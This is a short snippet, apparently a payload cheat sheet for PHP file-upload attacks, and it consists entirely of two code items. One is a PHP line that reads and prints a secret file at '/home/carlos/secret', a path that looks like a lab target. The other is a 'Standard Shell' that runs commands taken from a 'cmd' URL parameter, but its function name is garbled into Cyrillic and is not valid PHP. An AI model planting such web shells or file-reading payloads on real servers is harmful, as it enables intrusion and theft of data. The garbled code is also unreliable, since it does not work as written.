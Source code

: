 ## 1. Read file

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

## 2. Standard Shell

```php
<?php if(isset($_GET['cmd'])) { _систем($_GET['cmd']); } ?>
```
